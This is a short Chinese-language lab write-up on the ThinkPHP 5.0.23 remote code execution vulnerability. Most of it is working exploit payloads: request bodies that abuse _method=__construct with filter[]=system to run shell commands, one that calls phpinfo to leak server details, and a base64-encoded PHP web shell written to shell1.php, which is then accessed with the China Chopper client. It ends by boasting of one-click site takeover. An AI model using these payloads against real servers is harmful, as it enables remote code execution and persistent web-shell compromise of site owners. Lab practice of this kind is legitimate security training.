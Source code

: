 

# Thinkphp5.0.23 远程代码执行

# 漏洞概述

低于5.0.23版本都存在远程代码执行

## write up

首先打开靶场



![1](./1.png)

利用POC来拿flag

`_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls /tmp`

![2](./2.png)

使用phpinfo函数验证来获取敏感信息

`_method=__construct&filter[]=phpinfo&method=get&server[REQUEST_METHOD]=1`

![3](./3.png)

如果要上传 shell ,传 shell 的时候，要 把 eval 替换成 assert  并进行base64转义。对

`aaa<?php @assert($_POST['xss']);?>bbb` 进行base64转义，

转义完成后的POC

`_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=echo -n YWFhPD9waHAgQGFzc2VydCgkX1BPU1RbJ3hzcyddKTs/PmJiYg== | base64 -d > shell1.php
`

![4](./4.png)



成功访问,说明上传成功。![5](./5.png)用菜刀去连接。

![6](./6.png)

![7](./7.png)

接上来上大招，一键日站。

![8](./8.png)